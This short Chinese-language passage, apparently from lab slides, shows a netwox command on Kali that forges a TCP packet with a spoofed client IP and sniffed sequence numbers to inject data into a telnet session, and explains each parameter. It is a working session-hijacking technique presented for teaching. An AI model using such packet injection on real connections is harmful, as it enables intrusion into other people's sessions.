

# kali使用netwox，手动构造数据包并发送
sudo netwox 40 --ip4-offsetfrag 0 --ip4-ttl 64 --ip4-protocol 6 --ip4-src 192.168.43.138 --ip4-dst 192.168.43.247 --tcp-src 36946 --tcp-dst 23 --tcp-seqnum 2477290558 --tcp-acknum 933043458 --tcp-ack --tcp-psh --tcp-window 128 --tcp-data "616263"
其中192.168.43.138为客户机IP ，192.168.43.247为服务器IP ，36946为客户端的端口号， seqnum为上图中的Ack的值， acknum为上图中Next seq的值 ，616263为abc的16进制表示，data中也可以发送其他数据。